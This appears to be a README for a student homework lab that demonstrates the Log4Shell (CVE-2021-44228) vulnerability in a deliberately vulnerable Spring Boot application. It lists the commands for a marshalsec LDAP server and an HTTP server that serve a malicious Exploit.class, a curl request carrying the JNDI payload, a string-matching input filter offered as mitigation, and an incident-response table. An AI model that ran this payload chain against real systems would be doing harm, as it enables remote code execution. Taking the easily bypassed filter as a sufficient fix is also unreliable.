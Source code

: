 
This project demonstrates the **Log4Shell (CVE-2021-44228)** vulnerability in a Spring Boot application using **Log4j 2.14.1**, 
and walks through a full exploit lifecycle with **MITRE ATT&CK/REACT** response phases and mitigation.

---
Project Structure:
HW9_Log4Shell/
├── log4shell-homework/        # Vulnerable Spring Boot app with Log4j 2.14.1
├── marshalsec/                # LDAPRefServer for JNDI exploit delivery
└── Exploit.java               # Malicious class payload (compiled and hosted)

---

Setup Instructions (AWS Linux 2)
1. Clone the Repo

git clone https://github.com/zilantix/HW9_Log4Shell.git
cd HW9_Log4Shell

2. Run Setup Script *(Optional)*

chmod +x setup_log4shell_lab.py
./setup_log4shell_lab.py


3. Manually Start LDAP Exploit Infrastructure

cd marshalsec
java -cp target/marshalsec-*-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<EC2-IP>:8000/#Exploit"

# In another terminal:
cd ~/exploit
python3 -m http.server 8000


---
Exploit Testing

curl -H 'Content-Type: text/plain' --data '${jndi:ldap://host.docker.internal:1389/a}' http://localhost:8080/log

Confirm `GET /Exploit.class` in your HTTP server logs.
---

Mitigation

- Patched input via validation in `LogController.java`:
java
if (input.contains("${jndi:")) {
    return "Invalid input detected";
}

- Can upgrade to Log4j 2.17.0 for full vendor patch

---
Incident Response (MITRE REACT)

| Phase     | Action                                        |
|-----------|-----------------------------------------------|
| Detect    | `docker logs` → saw `${jndi:` in input        |
| Contain   | `docker-compose down`                         |
| Eradicate | Confirmed no running containers               |
| Recover   | Redeployed patched version                    |
| Report    | Validated with sanitized test input           |



References

- [Apache Log4j Security Page](https://logging.apache.org/log4j/2.x/security.html)
- [MITRE ATT&CK T1190](https://attack.mitre.org/techniques/T1190/)
- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [Marshalsec LDAPRefServer](https://github.com/mbechler/marshalsec) Java Unmarshaller Security - Turning your data into code execution

---

📘 For educational use only. Not intended for real-world exploitation.
